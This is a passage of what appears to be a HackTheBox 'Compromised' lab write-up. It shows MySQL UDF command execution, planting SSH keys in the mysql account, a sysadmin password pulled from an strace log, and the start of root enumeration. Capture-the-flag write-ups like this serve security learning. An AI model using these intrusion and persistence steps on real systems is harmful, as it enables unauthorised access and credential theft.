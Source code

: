 ```
mysql:x:111:113:MySQL Server,,,:/var/lib/mysql:/bin/bash
```

I have done something similar before this box so UDF(User Defined Functions ) can be used here [udf](https://mariadb.com/kb/en/mysqlfunc-table/)

``
mysql -u root -pchangethis -e "select * from mysql.func;" 
``

![Desktop View]({{ "/assets/img/htb-machines/compromised/15.png" | relative_url }})

exec_cmd is a UDF yeah so now we can execute commands 

as ssh is opened in box so we can put our ssh keys in mysql authorized keys!!

```
mysql -u root -pchangethis -e "select exec_cmd('mkdir -p /var/lib/mysql/.ssh')" 
mysql -u root -pchangethis -e "select exec_cmd('echo your keys > /var/lib/mysql/.ssh/authorized_keys')"
```

also give ``chmod 600`` to your ssh key.
600 mean that the owner has full read and write access to the file, while no other user can access the file
successfully logged in through ssh as mysql 

![Desktop View]({{ "/assets/img/htb-machines/compromised/16.png" | relative_url }})

we have lot of files in myqsl home but strace-log.dat is intresting one. strace-log.dat is big we can try to grep random strings. we got password of sysadmin also sysadmin has shell. 

![Desktop View]({{ "/assets/img/htb-machines/compromised/17.png"  | relative_url }})

``
:09 execve("/usr/bin/mysql", ["mysql", "-u", "root", "--password=3*NLJE32I$Fe"], 0x55bc62467900 /* 21 vars */) = 0`
``
<br>
``
sysadmin: 3*NLJE32I$Fe
``

ssh on sysadmin 
we got user

![Desktop View]({{ "/assets/img/htb-machines/compromised/18.png"}})

<strong><span style="color:#ff5555">Root</span></strong>

--- 
i was stucked in root part so i got a hint from 

he told me to use the

```
find / -newermt "2020-07-14" ! -newermt "2020-09-16" -type f 2>/dev/null 
```
so i found many files but these two files are intresting and these both file have same name but one is hidden and another is not.

